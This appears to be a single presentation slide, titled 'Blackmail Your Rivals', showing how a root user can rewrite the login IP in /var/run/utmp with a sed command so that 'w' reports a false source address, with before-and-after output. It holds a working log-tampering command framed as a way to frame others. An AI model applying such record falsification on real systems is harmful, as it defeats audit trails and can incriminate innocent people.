

# Blackmail Your Rivals
Once you’ve gained root access, it’s possible to manipulate utmp into displaying whatever IP address or string of text that you want it to, when “who” is invoked
# w
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    10.10.10.10     16:04    1.00s  0.27s  0.00s w
# sed -i 's/10.10.10.10/20.20.20.20/g' /var/run/utmp
# w
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    20.20.20.20    09:22    0.00s  0.29s  0.00s w